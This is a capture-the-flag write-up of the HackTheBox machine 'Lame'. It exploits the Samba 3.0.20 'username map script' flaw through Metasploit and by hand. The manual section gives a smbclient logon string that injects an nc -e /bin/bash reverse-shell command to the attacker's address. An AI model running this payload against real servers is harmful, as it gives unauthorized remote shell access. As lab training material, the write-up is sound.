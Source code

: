 ```yaml
---
layout: post
comments: true
section-type: post
title: HackTheBox Write-up - Lame
category: hackthebox
tags: [ 'samba', 'oscp-like-machine' ]
---
```


**DIGEST**

An initial Nmap scan result will show us a vulnerable samba service which is running on port 139. It's vulnerable to the "Samba username map script" vulnerability and exploited using both Manual command and Metasploit module.

![lame](../../../../img/htb/lame/lame.png)

<html>

<head>
    <style>
    b {
  font-weight: bold;
}
        table {
            font-family: arial, sans-serif;
            border-collapse: collapse;
            width: 100%;
        }

        td,
        th {
            border: 1px solid #050505;
            text-align: left;
            padding: 8px;
        }

        tr:nth-child(even) {
            background-color: #050505;
        }
    </style>
</head>

<body>
    <h2 class="text-center">Lame</h2>
    <p>
        <table>
            <tbody>
                <tr>
                    <td class="text-right">OS:</td>
                    <td>Linux</td>
                </tr>
                <tr>
                    <td class="text-right">Difficulty:</td>
                    <td> <span class="text-success bold">Easy</span></td>
                </tr>
                <tr>
                    <td class="text-right">Points:</td>
                    <td><span class="text-success">20</span></td>
                </tr>
                <tr>
                    <td class="text-right">Release:</td>
                    <td>14 Mar 2017</td>
                </tr>
                <tr>
                    <td class="text-right">IP:</td>
                    <td>10.10.10.3</td>
                </tr>
            </tbody>
        </table>
    </p>
</body>
</html>


**Tools Used:**

> Nmap, Searchsploit, Metsaploit


**Initial Scan with Nmap:**

![lame-nm](../../../../img/htb/lame/lame-nmap.png)

![lame-nmap](../../../../img/htb/lame/lame-nmap-result.png)

**Vulnerable Samba service on port 139:**

Exploting the command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

**Searchsploit:**

> $ searchsploit Samba 3.0.20

![Searchsploit](../../../../img/htb/lame/lame-sp.png)

**MSF Module - Samba "username map script" Command Execution:**

> $ msf> use exploit/multi/samba/usermap_script

![msf](../../../../img/htb/lame/lame-msf.png)

![shell](../../../../img/htb/lame/lame-msf2.png)

![root](../../../../img/htb/lame/lame-hash.png)

**Manual Exploitation:**

Log in as an anonymous user via smbclient. Listen on port 4444 and run the below script to get a reverse shell.

> logon “./=`nohup nc -e /bin/bash 10.10.14.18 4444`"

![Manual](../../../../img/htb/lame/lame-manual1.png)

![Manualroot](../../../../img/htb/lame/lame-manual2.png)

**Rate Matrix:**

![matrix](../../../../img/htb/lame/lame-matrix.png)

<h5><center>Thanks for reading ❤️! </center></h5>
<h5><center>Feel free to leave a comment 💬 below.</center></h5>
